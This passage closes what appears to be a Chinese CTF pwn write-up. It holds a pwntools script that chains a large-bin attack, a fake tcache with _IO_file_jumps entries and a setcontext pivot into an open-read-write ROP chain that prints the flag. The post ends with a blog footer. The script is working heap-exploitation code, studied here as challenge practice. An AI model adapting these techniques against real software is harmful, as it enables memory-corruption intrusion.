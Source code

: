 ```
orw += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(flag_addr + 0x100) + p64(pop_rdx_r12) + p64(0x40)*2 + p64(write)
orw = orw.ljust(0x100,b'a')
orw += b'flag\x00\x00\x00\x00'

add(0x440,orw) #0
add(0x418) #11
add(0x208) #12

free(5) #unlink big  chunk
free(4) # large_bin attack chunk 
# chunk5 ----> largebin

payload = b'a'*0x208 + p64(0x431) + p64(libc_base + 0x1e3ff0)*2 + p64(heap_base + 0x1350)
payload += p64(tls_truct - 0x20)

add(0x1240,payload)
free(11)
add(0x500) # wancheng large_bin attack

add(0x410) #11
free(4)
payload = b'a'*0x208 + p64(0x431) + p64(libc_base + 0x1e3ff0)*2 + p64(heap_base + 0x1350)*2
add(0x1240,payload)

fake_tcache = b'\x07\x00' * 0x35
fake_tcache = fake_tcache.ljust(0xe8,b'\x00') + p64(IO_file_jumps + 0x60)
fake_tcache = fake_tcache.ljust(0x168,b'\x00') + p64(IO_hleper_jumps + 0xa0)
fake_tcache +=  p64(heap_base + 0x46f0) #top_chunk
add(0x420,fake_tcache)
add(0x100,p64(setcontext+61))
add(0x200,p64(heap_base + 0x8e0)+p64(ret))
add(0x210,p64(0x999))
gdb.attach(io)
add(0x1000)
#gdb.attach(io)
io.interactive()
```

**最后效果**


**[![](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910204909438-688353297.png)](https://img2024.cnblogs.com/blog/3419447/202409/3419447-20240910204909438-688353297.png)**


 \_\_EOF\_\_

   ![](https://github.com/CH13hh)CH13hh  - **本文链接：** [https://github.com/CH13hh/p/18405448](https://github.com)
 - **关于博主：** 评论和私信会在第一时间回复。或者[直接私信](https://github.com)我。
 - **版权声明：** 本博客所有文章除特别声明外，均采用 [BY\-NC\-SA](https://github.com "BY-NC-SA") 许可协议。转载请注明出处！
 - **声援博主：** 如果您觉得文章对您有帮助，可以点击文章右下角**【[推荐](javascript:void(0);)】**一下。
     
